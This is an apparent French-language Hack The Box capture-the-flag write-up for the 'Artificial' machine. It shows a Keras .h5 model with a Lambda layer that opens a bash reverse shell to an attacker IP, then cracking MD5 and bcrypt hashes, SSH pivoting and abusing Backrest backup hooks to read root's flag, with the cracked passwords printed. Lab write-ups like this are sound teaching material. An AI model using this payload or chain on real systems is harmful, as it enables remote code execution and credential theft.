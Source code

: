 +++
draft = true
date = '2025-10-07T15:00:00+02:00'
title = "Hack The Box Artificial"
description = "Write Up du challenge Artificial"
authors = "Wanako"
tags = ["Hack The Box"]
categories = ["Machine", "Hack The Box", "CVE"]
+++

# WriteUp - Artificial 

## Reconnaissance

```bash
nmap -A [IP]
```

**Ports ouverts :**
- **22/tcp** : SSH (OpenSSH 8.2p1)
- **80/tcp** : HTTP (nginx 1.18.0) → Redirection vers `http://artificial.htb/`

**Enumération web :**
```bash
gobuster dir -w directory-list-2.3-small.txt -u http://artificial.htb/ -x php,html,js
```

**Pages découvertes :**
- `/login` (200)
- `/register` (200)
- `/logout` (302)
- `/dashboard` (302 → /login)

---

## Exploitation - Upload de modèle malveillant (.h5)

### 1. Analyse de la fonctionnalité
Après création d'un compte, la plateforme permet l'upload de fichiers `.h5` (modèles Keras/TensorFlow).

### 2. Création du payload malveillant

**Script Python d'exploitation :**
```python
import tensorflow as tf

model = tf.keras.Sequential([
    tf.keras.layers.Input(shape=(10,)),
    tf.keras.layers.Lambda(lambda x: __import__('os').system(
        'bash -c "bash -i >& /dev/tcp/10.10.14.115/4444 0>&1"'
    ))
])

model.save('exploit.h5')
```

**Vulnérabilité exploitée :**
- **CVE-2023-33976** : TensorFlow < 2.14 exécute du code arbitraire lors de la désérialisation de Lambda layers
- Pas de sanitization lors du `load_model()`

**Build du modèle :**
```bash
docker build -t tf-exploit .
docker run -it -v $(pwd):/code tf-exploit
python3 create_exploit.py
```

### 3. Obtention du shell

**Listener :**
```bash
nc -lvnp 4444
```

**Upload de `exploit.h5`** → Shell reçu en tant qu'utilisateur `app`

---

## Escalade de privilèges #1 - Utilisateur gael

### 1. Extraction des credentials

```bash
cat instance/users.db
```

**Hash MD5 de gael :**
```
c99175974b6e192936d97224638a34f8
```

**Crackage via CrackStation :**
```
c99175974b6e192936d97224638a34f8 → mattp005numbertwo
```

### 2. Connexion SSH

```bash
ssh gael@10.10.11.74
# Password: mattp005numbertwo
```

**Vérification des groupes :**
```bash
id
# uid=1000(gael) gid=1000(gael) groups=1000(gael),1007(sysadm)
```

---

## Escalade de privilèges #2 - Root via Backrest

### 1. Recherche de fichiers accessibles au groupe sysadm

```bash
find / -group sysadm 2>/dev/null
# /var/backups/backrest_backup.tar.gz
```

### 2. Extraction du backup

```bash
cp /var/backups/backrest_backup.tar.gz /tmp/
cd /tmp
tar xvf backrest_backup.tar.gz
```

**Contenu découvert :**
```json
{
  "name": "backrest_root",
  "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
}
```

### 3. Crackage du hash bcrypt

```bash
echo "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP" | base64 -d
# $2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```

```bash
hashcat -m 3200 hash.txt rockyou.txt --force
# Password: !@#$%^
```

### 4. Port Forwarding vers Backrest (port 9898)

```bash
ssh -L 9898:127.0.0.1:9898 gael@10.10.11.74
```

Accès à l'interface Backrest via `http://localhost:9898`

### 5. Exploitation de Backrest pour Command Injection

**Étapes :**

1. **Créer un nouveau Repository Restic**
   - Path: `/tmp`

2. **Ajouter un Hook**
   - Command: `cat /root/root.txt`
   - Type: After Backup

3. **Créer un Plan de Backup**
   - Repository: celui créé précédemment
   - Path: `/root`

4. **Exécuter le Backup**
   - Cliquer sur "Backup Now"

5. **Récupérer le flag**
   - Consulter "Hook Output" :

```
1f0414629075d2d1373c2db0aea61ca3
```

---

## Résumé de la chaîne d'exploitation

```
1. Upload .h5 malveillant (RCE via Lambda layer)
   ↓
2. Shell en tant que 'app'
   ↓
3. Extraction de users.db → Hash MD5 de gael
   ↓
4. Crack du hash → SSH avec gael
   ↓
5. Groupe sysadm → Accès à backup Backrest
   ↓
6. Crack du bcrypt → Credentials admin Backrest
   ↓
7. Port forwarding + Command Injection via Hooks
   ↓
8. Root flag: 1f0414629075d2d1373c2db0aea61ca3
```

---

## Points clés

- **CVE TensorFlow** : Désérialisation non sécurisée de Lambda layers
- **Credential reuse** : Hash faibles (MD5, bcrypt avec rockyou)
- **Privilege Escalation** : Exploitation de groupes Unix (sysadm)
- **Pivoting** : Port forwarding SSH pour accéder à un service interne
- **Command Injection** : Abus de fonctionnalité légitime (Hooks de backup)
